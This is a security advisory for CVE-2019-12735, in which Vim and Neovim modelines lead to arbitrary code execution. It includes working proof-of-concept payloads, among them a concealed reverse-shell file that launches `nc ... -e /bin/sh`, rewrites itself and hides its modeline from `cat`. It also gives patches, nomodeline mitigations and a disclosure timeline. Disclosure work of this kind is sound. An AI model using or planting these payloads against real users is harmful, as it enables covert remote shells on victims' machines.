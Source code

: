 *by Arminius ([@rawsec](https://twitter.com/rawsec))*

Vim/Neovim Arbitrary Code Execution via Modelines
=================================================

```
Product: Vim < 8.1.1365, Neovim < 0.3.6
Type:    Arbitrary Code Execution
CVE:     CVE-2019-12735
Date:    2019-06-04
Author:  Arminius (@rawsec)
```

Summary
-------

Vim before 8.1.1365 and Neovim before 0.3.6 are vulnerable to arbitrary code
execution via modelines by opening a specially crafted text file.


Proof of concept
----------------

- Create [`poc.txt`](../data/2019-06-04_ace-vim-neovim/poc.txt):

      :!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="

- Ensure that the modeline option has not been disabled (`:set modeline`).

- Open the file in Vim:

      $ vim poc.txt

- The system will execute `uname -a`.

Proof of concept 2 (reverse shell)
----------------------------------

This PoC outlines a real-life attack approach in which a reverse shell
is launched once the user opens the file. To conceal the attack, the file will
be immediately rewritten when opened. Also, the PoC uses terminal escape
sequences to hide the modeline when the content is printed with `cat`. (`cat
-v` reveals the actual content.)

[`shell.txt`](../data/2019-06-04_ace-vim-neovim/shell.txt):

    \x1b[?7l\x1bSNothing here.\x1b:silent! w | call system(\'nohup nc 127.0.0.1 9999 -e /bin/sh &\') | redraw! | file | silent! # " vim: set fen fdm=expr fde=assert_fails(\'set\\ fde=x\\ \\|\\ source\\!\\ \\%\') fdl=0: \x16\x1b[1G\x16\x1b[KNothing here."\x16\x1b[D \n

Demo (victim left, attacker right):

![Reverse shell demo](https://i.imgur.com/8w4tteX.gif)

Details
-------

The modeline feature allows to specify custom editor options near the start or
end of a file. This feature is enabled by default and applied to all file
types, including plain `.txt`. (Note that some OSes ship with a custom vimrc
that explicitly sets `nomodelines`, e.g. Debian. So if you use their custom
default vimrc instead of Vim's native defaults, you're safe.) A typical
modeline:

    /* vim: set textwidth=80 tabstop=8: */

For security reasons, only a subset of options is permitted in modelines, and
if the option value contains an expression, it is executed in a sandbox: [[1]]

    No other commands than "set" are supported, for security reasons (somebody
    might create a Trojan horse text file with modelines).  And not all options
    can be set.  For some options a flag is set, so that when it's used the
    |sandbox| is effective.

The sandbox is meant to prevent side effects: [[2]]

    The 'foldexpr', 'formatexpr', 'includeexpr', 'indentexpr', 'statusline' and
    'foldtext' options may be evaluated in a sandbox.  This means that you are
    protected from these expressions having nasty side effects.  This gives some
    safety for when these options are set from a modeline.

However, the `:source!` command (with the bang [`!`] modifier) can be used to
bypass the sandbox. It reads and executes commands from a given file as if
*typed manually*, running them after the sandbox has been left. [[3]]

    :so[urce]! {file}       Read Vim commands from {file}.  These are commands
                            that are executed from Normal mode, like you type
                            them.

Thus, one can trivially construct a modeline that runs code outside the sandbox:

    # vim: set foldexpr=execute('\:source! some_file'):

An additional step is needed for Neovim which blacklists `execute()`: [[4]]

    execute({command} [, {silent}])                         *execute()*
                    Execute {command} and capture its output.
                    [...]
                    This function is not available in the |sandbox|.

Here, `assert_fails()` can be used instead, which takes a `{cmd}` argument, too: [[5]]

    assert_fails({cmd} [, {error} [, {msg}]])               *assert_fails()*
                    Run {cmd} and add an error message to |v:errors| if it does
                    NOT produce an error.

The following modeline utilizes a fold expression to run `source!  %` to
execute the current file, which in turn executes `uname -a || "(garbage)"` as a
shell command:

    :!uname -a||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="

Additionally, the Neovim-only function `nvim_input()` is vulnerable to the same
approach via e.g.:

     vi:fen:fdm=expr:fde=nvim_input("\:terminal\ uname\ -a"):fdl=0

(In the past, other modeline-related vulnerabilities have been patched in Vim - see [CVE-2002-1377](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1377), [CVE-2016-1248](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1248).)

Patches
-------

- [Vim patch 8.1.1365](https://github.com/vim/vim/commit/5357552)
- [Neovim patch](https://github.com/neovim/neovim/pull/10082) (released in [v0.3.6](https://github.com/neovim/neovim/releases/tag/v0.3.6))

Beyond patching, it's recommended to disable modelines in the vimrc (`set
nomodeline`), to use the [securemodelines](https://github.com/ciaranm/securemodelines/)
plugin, or to disable `modelineexpr` (since patch 8.1.1366, Vim-only) to disallow
expressions in modelines.

Check if you have modelines enabled by opening vim and entering

```:set modeline?```

If vim returns ```nomodeline```, you are not vulnerable.  If you are vulnerable
or want to ensure your security with this issue, add these lines to your vimrc:

```
set modelines=0
set nomodeline
```

Timeline
--------

    - 2019-05-22 Vim and Neovim maintainers notified
    - 2019-05-23 Vim patch released
    - 2019-05-29 Neovim patch released
    - 2019-06-05 CVE ID CVE-2019-12735 assigned

Also see description of [CVE-2019-12735](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12735).

[1]: https://github.com/vim/vim/blob/5c017b2de28d19dfa4af58b8973e32f31bb1477e/runtime/doc/options.txt#L582
[2]: https://github.com/vim/vim/blob/5c017b2de28d19dfa4af58b8973e32f31bb1477e/runtime/doc/eval.txt#L13050
[3]: https://github.com/vim/vim/blob/5c017b2de28d19dfa4af58b8973e32f31bb1477e/runtime/doc/repeat.txt#L182
[4]: https://github.com/neovim/neovim/blob/1060bfd0338253107deaac346e362a9feab32068/runtime/doc/eval.txt#L3247
[5]: https://github.com/neovim/neovim/blob/1060bfd0338253107deaac346e362a9feab32068/runtime/doc/eval.txt#L2494
[6]: https://github.com/vim/vim/releases/tag/v8.1.1365
[7]: https://github.com/neovim/neovim/releases/tag/v0.3.6

